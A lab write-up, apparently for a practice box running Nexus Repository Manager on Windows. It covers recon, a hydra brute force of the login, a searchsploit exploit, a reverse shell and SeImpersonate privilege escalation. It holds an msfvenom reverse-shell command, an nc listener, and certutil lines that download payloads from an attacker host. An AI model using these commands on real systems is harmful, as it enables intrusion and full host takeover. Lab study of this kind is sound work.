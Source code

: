 
# Recon

## TCP Scan

```bash
sudo ../tools/scan.sh 192.168.127.61 
[*] Running rustscan...
[*] Running nmap on ports: 80,139,445,5040,21,135,8081,49664,49665,49666,49668,49669,49667
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 23:38 EDT
Nmap scan report for 192.168.127.61
Host is up (0.65s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: BaGet
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8081/tcp  open  http          Jetty 9.4.18.v20190429
|_http-server-header: Nexus/3.21.0-05 (OSS)
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-title: Nexus Repository Manager
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-04T03:40:59
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 194.09 seconds

```


## TCP 8081 
![[Pasted image 20250704104358.png]]

### Wordlist gen 
```bash
cewl --lowercase http://192.168.127.61:8081/ | grep -v CeWL  >> custom-wordlist.txt
```


# bruteforce using hydra 
![[Pasted image 20250704110737.png]]

```bash
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.127.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
# USER64 และ PASS64 เป็นการ encode ด้วย base64 
```

![[Pasted image 20250704112327.png]]

# Exploit 

โหลด Exploit ด้วย `searchsploit -m 49385` จากนั้นแก้ไข Payload 

![[Pasted image 20250704144300.png]]

![[Pasted image 20250704144442.png]]

## Reverse Shell as nathan 

สร้าง Shell
![[Pasted image 20250704144705.png]]

![[Pasted image 20250704144600.png]]

![[Pasted image 20250704144634.png]]

# Privilege Escalation 

```powershell
PS C:\Users\nathan\Nexus\nexus-3.21.0-05> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
PS C:\Users\nathan\Nexus\nexus-3.21.0-05> 
```

จากการตรวจสอบพบว่ามีสิทธิ SeImpersonatePrivilege ซึ่งหมายความว่าสามารถใช้ Potato ได้ 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(ip a show tun0 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1) LPORT=8000 -f exe -o reverse.exe

rlwarp nc -lvnp 8000
```

```powershell
cd /
cd .\Users\nathan\Desktop 
certutil.exe -urlcache -f http://192.168.45.219/reverse.exe reverse.exe
certutil.exe -urlcache -f http://192.168.45.219/SharpEfsPotato.exe SharpEfsPotato.exe

```

![[Pasted image 20250707093015.png]]

# PWN